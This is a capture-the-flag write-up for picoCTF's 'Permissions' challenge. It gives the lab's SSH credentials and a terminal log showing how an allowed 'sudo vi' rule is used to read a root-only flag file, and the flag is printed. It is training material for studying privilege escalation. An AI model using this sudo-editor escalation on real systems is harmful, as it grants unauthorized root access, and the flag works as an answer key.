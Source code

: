 # Permissions

## Objetivo
Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 64790 picoplayer@saturn.picoctf.net`Password: `NBD+zO8s4y`Can you login and read the root file?

## Pistas

| No. Pista | Pista                         |
| --------- | ----------------------------- |
| 1         | What permissions do you have? |


## Solucion
```bash
┌──(kali㉿kali)-[~/Documents/parcial1]
└─$ ssh -p 59481 picoplayer@saturn.picoctf.net
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Nov 28 02:29:33 2024 from 200.68.185.171
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on
        challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi /root

[1]+  Stopped                 sudo vi /root
picoplayer@challenge:~$ sudo vi /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}
```

## Notas adicionales

## Referencias